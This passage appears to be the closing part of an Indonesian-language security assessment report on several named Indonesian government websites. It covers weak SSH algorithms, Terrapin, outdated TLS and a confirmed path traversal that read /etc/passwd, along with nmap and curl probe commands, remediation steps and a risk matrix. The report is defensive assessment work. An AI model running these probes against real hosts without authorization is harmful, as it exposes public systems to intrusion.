Algoritma tersebut masih ditawarkan oleh SSH server dan menunjukkan konfigurasi cryptographic yang belum di-hardening.

Evidence enumeration berasal dari:

```bash
nmap -p 22 --script ssh2-enum-algos \
diskominfo.sultraprov.go.id
```

## Potential Impact

- Downgrade ke algoritma lama.
- Penggunaan SHA-1 pada key exchange.
- Penggunaan CBC cipher.
- Menurunkan security posture layanan SSH.

## Remediation

Nonaktifkan:

```text
diffie-hellman-group1-sha1
diffie-hellman-group14-sha1
diffie-hellman-group-exchange-sha1
```

dan cipher CBC yang tidak diperlukan.

Gunakan algoritma modern seperti:

```text
curve25519-sha256
chacha20-poly1305@openssh.com
aes128-gcm@openssh.com
aes256-gcm@openssh.com
```

### Retest

```bash
nmap -p 22 --script ssh2-enum-algos \
diskominfo.sultraprov.go.id
```

Algoritma deprecated harus sudah tidak muncul.

---

# Temuan Tambahan

Selain lima finding utama, Nuclei menemukan beberapa informasi dan hardening issue.

Pada `setda.oganilirkab.go.id`:

- PHPMyAdmin panel detection
- PHP version information
- Laravel cookie tanpa Secure
- Laravel cookie tanpa HttpOnly
- Missing SameSite
- Missing security headers
- Laravel log file detection
- Laravel debug enabled
- Roundcube detection

Pada layanan SSH:

- SSH password authentication
- SHA-1 MAC algorithms
- Informasi versi OpenSSH
- Informasi algoritma host key

Temuan tersebut tidak semuanya dimasukkan sebagai vulnerability utama karena sebagian merupakan informational/hardening finding atau belum berhasil divalidasi secara aman.

---

# Validasi Laravel Log & Debug

Nuclei mendeteksi:

```text
[laravel-log-file] [high]
[laravel-debug-enabled] [medium]
```

## Laravel Log

Command:

```bash
curl -k -i --max-time 10 \
https://setda.oganilirkab.go.id/storage/logs/laravel.log
```

Response:

```text
HTTP 403
```

Response juga menunjukkan mekanisme Cloudflare challenge.

## Laravel Ignition

Endpoint:

```text
/_ignition/health-check
```

Command:

```bash
curl -k -i --max-time 10 \
https://setda.oganilirkab.go.id/_ignition/health-check
```

Response:

```text
HTTP/2 403
cf-mitigated: challenge
server: cloudflare
```

Halaman yang diterima merupakan Cloudflare challenge.

**Kesimpulan:** kedua detection tersebut tidak ditetapkan sebagai confirmed finding karena endpoint tidak dapat diakses secara langsung dan pengujian tidak dilanjutkan untuk melewati mekanisme proteksi Cloudflare.

### Screenshot Evidence



---

# Informasi Teknologi

### Manggarai Barat

```text
X-Powered-By: PHP/7.2.34
Server: Cloudflare
Platform: Hostinger
X-Turbo-Charged-By: LiteSpeed
```

### Ogan Ilir

```text
Certificate: CN=oganilirkab.go.id
Issuer: Google Trust Services WR1
```

Cloudflare terdeteksi sebagai bagian dari perimeter/protection layer.

### Sulawesi Tenggara

```text
SSH: OpenSSH 7.4
Port: 22/tcp
SSH protocol: Protocol 2.0
```

### Papua

```text
SSH: OpenSSH_7.6p1 Ubuntu-4ubuntu0.5
Port: 22
```

---

# Risk Matrix

| ID | Finding | Severity | Status |
|---|---|---|---|
| F-01 | Path Traversal / Arbitrary Local File Read | **High** | Confirmed |
| F-02 | CVE-2023-48795 Terrapin — Papua | **Medium** | Strongly Validated |
| F-03 | TLS 1.0 / TLS 1.1 | **Low** | Confirmed |
| F-04 | CVE-2023-48795 Terrapin — Sultra | **Medium** | Strongly Validated |
| F-05 | Weak/Deprecated SSH Algorithms | **Low** | Confirmed |

---

# Prioritas Remediasi

## Priority 1 — High

### F-01 Path Traversal

Segera lakukan:

- Perbaikan parameter `file`.
- Allowlist file.
- Canonical path validation.
- Restriction terhadap filesystem access.

Finding ini merupakan prioritas tertinggi karena berhasil membaca file sistem secara langsung.

## Priority 2 — Medium

### F-02 & F-04 Terrapin

- Upgrade OpenSSH.
- Terapkan patch keamanan.
- Gunakan strict-KEX.
- Review cipher dan KEX.
- Restrict SSH exposure.

## Priority 3 — Low

### F-03 TLS

- Disable TLS 1.0.
- Disable TLS 1.1.
- Gunakan TLS 1.2/1.3.

### F-05 SSH Algorithms

- Disable SHA-1 KEX.
- Disable CBC cipher.
- Disable legacy algorithms.

---

# Evidence Checklist

| # | Evidence | Status |
|---|---|---|
| 1 | Nuclei Path Traversal Manggarai Barat | ✓ |
| 2 | cURL `/etc/passwd` | ✓ |
| 3 | HTTP response dan server headers | ✓ |
| 4 | Nuclei Terrapin Papua | ✓ |
| 5 | SSH banner OpenSSH Papua | ✓ |
| 6 | Nuclei TLS detection Ogan Ilir | ✓ |
| 7 | OpenSSL TLS 1.0 | ✓ |
| 8 | OpenSSL TLS 1.1 | ✓ |
| 9 | Certificate Ogan Ilir | ✓ |
| 10 | Nuclei Terrapin Sultra | ✓ |
| 11 | Nmap OpenSSH 7.4 | ✓ |
| 12 | SSH algorithm enumeration | ✓ |
| 13 | SSH verbose negotiation | ✓ |
| 14 | Actual negotiated cipher | ✓ |
| 15 | Weak KEX SHA-1 | ✓ |
| 16 | CBC cipher enumeration | ✓ |
| 17 | Laravel log manual validation | ✓ |
| 18 | Laravel Ignition manual validation | ✓ |
| 19 | Cloudflare 403 evidence | ✓ |
| 20 | Manggarai Barat CSIRT evidence | ✓ |
| 21 | PapuaProv-CSIRT evidence | ✓ |
| 22 | OganIlirKab-CSIRT evidence | ✓ |
| 23 | SultraProv-CSIRT evidence | ✓ |

---

# Status Akhir Assessment

```text
Total Finding Utama : 5

HIGH   : 1
MEDIUM : 2
LOW    : 2

Exploitasi destruktif : Tidak dilakukan
DoS/DDoS              : Tidak dilakukan
Defacement            : Tidak dilakukan
Data modification     : Tidak dilakukan
Domain takeover       : Tidak dilakukan
Social engineering    : Tidak dilakukan
Phishing              : Tidak dilakukan
```

### Status Evidence

```text
F-01 → Confirmed
F-02 → Strongly Validated / Likely Vulnerable
F-03 → Confirmed
F-04 → Strongly Validated / Likely Vulnerable
F-05 → Confirmed
```

## Kesimpulan

Assessment berhasil memperoleh bukti teknis yang cukup untuk mendokumentasikan lima temuan keamanan utama.

Finding paling signifikan adalah **Path Traversal / Arbitrary Local File Read** pada `manggaraibaratkab.go.id`, yang berhasil divalidasi secara manual dengan memperoleh isi `/etc/passwd` melalui parameter `file`.

Dua layanan SSH menunjukkan indikasi kuat terhadap **CVE-2023-48795 (Terrapin)**:

- `diskominfo.papua.go.id:22`
- `diskominfo.sultraprov.go.id:22`

Pada Sulawesi Tenggara, selain Terrapin ditemukan algoritma SSH deprecated berupa SHA-1 based Diffie-Hellman dan berbagai CBC cipher.

Pada `setda.oganilirkab.go.id`, TLS 1.0 dan TLS 1.1 berhasil dikonfirmasi masih diterima oleh server.

Seluruh pengujian dilakukan secara terbatas dan non-destruktif.

---

## Struktur Screenshot

Seluruh halaman PDF sumber telah dirender menjadi PNG pada folder:

```text
screenshots/
├── page-01.png
├── page-02.png
├── ...
└── page-28.png
```

Screenshot yang digunakan di bagian finding mengacu pada evidence dari laporan sumber.
